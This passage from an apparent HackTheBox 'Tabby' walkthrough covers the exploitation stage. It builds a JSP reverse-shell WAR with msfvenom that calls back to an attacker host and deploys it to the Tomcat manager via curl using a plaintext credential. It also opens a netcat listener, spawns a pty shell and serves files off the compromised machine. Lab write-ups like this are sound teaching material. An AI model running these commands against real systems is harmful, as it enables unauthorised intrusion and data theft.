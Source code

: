 ## Exploitation

Now we can spawn a reverse shell with a WAR deploy into the server. I didn't find the upload section in the gui... It took me time to figure this out, but tomcat suports remote manage with HTTP GET requests. We can deploy a WAR using curl, for further reading [tomcat manager commands doc](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands) and [stackoverflow](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands).

Let's craft the WAR shell with msfvenom, for further reading: [exploit tomcat manager](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands).

```
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=4444 -f war > shell.war

kali@kali:~$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/getshell'
OK - Deployed application at context path [/getshell]

kali@kali:~$ nc -lvnp 4444
```

Visit _http://10.10.10.194:8080/getshell/_ and get the shell:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/5_shell_tomcat.png" width="600"/>
</p>

Spawn bash (python, echo and perl didn't work, but python3 did):

```python3 -c "import pty; pty.spawn('/bin/bash')"```

Well... I find nothing at the moment, tried to upload linpeas.sh but it's read-only file system, so no luck at the moment.
I got stucked again, so I looked back into the notes and the DirBuster information I remember a website part (/files/) that I had no access...

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/6_files.png" width="600"/>
</p>

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/6_files_server.png" width="500"/>
</p>

Let's retrieve that backup file since is the only interesting there.


```
tomcat@tabby:/var/www/html/files$ python3 -m http.server 4445
